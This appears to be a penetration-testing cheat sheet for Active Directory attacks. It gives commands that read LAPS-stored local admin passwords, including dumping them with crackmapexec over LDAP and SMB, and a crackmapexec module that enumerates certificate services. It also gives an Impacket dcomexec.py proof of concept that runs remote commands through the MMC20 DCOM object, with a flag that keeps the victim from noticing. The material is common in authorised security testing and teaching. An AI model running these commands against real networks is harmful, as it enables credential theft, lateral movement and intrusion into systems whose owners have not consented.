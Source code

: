 # LAPS
LAPS allows you to manage the local Administrator password (which is randomised, unique, and changed regularly) on domain-joined computers. These passwords are centrally stored in Active Directory and restricted to authorised users using ACLs. Passwords are protected in transit from the client to the server using Kerberos v5 and AES       

When using LAPS, 2 new attributes appear in the computer objects of the domain: ms-mcs-AdmPwd and ms-mcs-AdmPwdExpirationTime. These attributes contains the plain-text admin password and the expiration time. Then, in a domain environment, it could be interesting to check which users can read these attributes.

## Commands
```powershell
# Check if LAPS is activated
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"

# Get commands available
Get-Command *AdmPwd*

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```

## Dumping credentials via crackmapexec
```bash
# LDAP
crackmapexec ldap <ip> -u <user> -p <password> -d <domain> -M laps

# SMB
crackmapexec smb <ip> -u <user> -p <password> --laps
```



# Active Directory Certificate Services (ADCS)
Active Directory Certificate Services (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.     
- [https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview)

## Enumeration
Here, one should look for services that haven't been discovered before.
```sh
crackmapexec ldap <ip> -u <username> -p <password> -M adcs
```



# Abusing COM & DCOM
## Explanation of the technologies
### COM
COM is, simply put, a method for sharing binary code across different applications and languages.

COM solves all these problems by defining a binary standard, meaning that COM specifies that the binary modules (the DLLs and EXEs) must be compiled to match a specific structure. The standard also specifies exactly how COM objects must be organized in memory. The binaries must also not depend on any feature of any programming language (such as name decoration in C++).

### DCOM
Specifies the Distributed Component Object Model (DCOM) Remote Protocol, which exposes application objects via remote procedure calls (RPCs) and consists of a set of extensions layered on the Microsoft Remote Procedure Call Extensions.

## Exploitation
A DCOM application **MMC20** allows for snap-in operations. One method withing the application is name `ExecuteShellCommand`. As the name suggests
this allows for command execution over the network.

### POC
One can use Impacket's `dcomexec.py` script to obtain RCE.          
```bash
dcomexec.py <domain>>/<user>:<password>@<ip> <command> -silentcommand -object MMC20
```
*-silentcommand is needed, as otherwise a cmd window will open up on the victim's screen*


## References
- [https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/windows/win32/com/the-component-object-model?redirectedfrom=MSDN)
- [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN)
- [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
- [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)